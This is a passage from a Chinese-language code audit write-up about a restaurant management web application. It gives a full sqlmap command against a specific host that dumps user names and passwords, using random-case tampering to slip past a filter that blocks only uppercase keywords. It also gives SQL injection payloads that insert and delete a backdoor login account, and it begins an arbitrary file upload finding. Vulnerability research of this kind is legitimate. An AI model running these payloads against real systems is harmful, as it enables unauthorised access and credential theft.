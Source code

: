 ![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr02.png)

这里就没有什么好说的，直接SQLmap跑一下，payload、权限啥都出来了：

![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr03.png)

在获取表名的时候发现被拦截了：

![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr04.png)

根据拦截的关键字找到了拦截文件bin\DiningRoom.PageLib.dll，这个文件下有个safe_360.cs做了全局过滤，可惜过滤的都是大写的字符：

![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr05.png)
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr06.png)


使用随机大小写字母绕过即可，SQLmap自带了该功能脚本，脚本名字为randomcase.py。

SQLmap完整的验证语句如下，-C后边是用户名和密码两个表：

```code
sqlmap -u "http://16f782g826.iok.la/dr/DC/PurchaseAdd.ashx?Method=GetCTList&LoginUserCode=" --time-sec 1 -v 3 --batch -D DR -T Dt_DR_Human -C P_HumanCode,P_Password --dump --tamper="randomcase.py"
```
#### SQL注入EXP

既然是SQL注入，就直接写注入的EXP吧，不考虑其他的，通过SQL添加一个用户名，用户名为webtest,密码为admin，相信大家都能看懂：
```code
' InSErT InTo dr.dbo.Dt_DR_Human (P_HumanCode,P_Password,P_MayBeLogin) VaLUeS ('webtest','CD175540F41025A9','1'); --
```

测试完成之后把添加的用户名webtest删除：

```code
' DeLEtE FrOm dr.dbo.Dt_DR_Human WhErE P_HumanCode='webtest'; --
```

演示图：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr07.gif)

### 0x03任意文件上传
通过搜索文件上传的关键词，发现一个漏洞在DC/UploadDishImgUP.aspx文件，漏洞链接如下：

```code
http://16f782g826.iok.la/dr/DC/UploadDishImgUP.aspx?DishCode=&DishName=
```

通过引用的文件、类、函数、上传提示信息，确定在bin\DiningRoom.PageLib.dll文件下，的有三个验证上传文件：

```code
DC_UploadDishImgUP.cs
clsUploadFileTypeCheck.cs
UploadFile.cs
```

#### DC_UploadDishImgUP.cs:
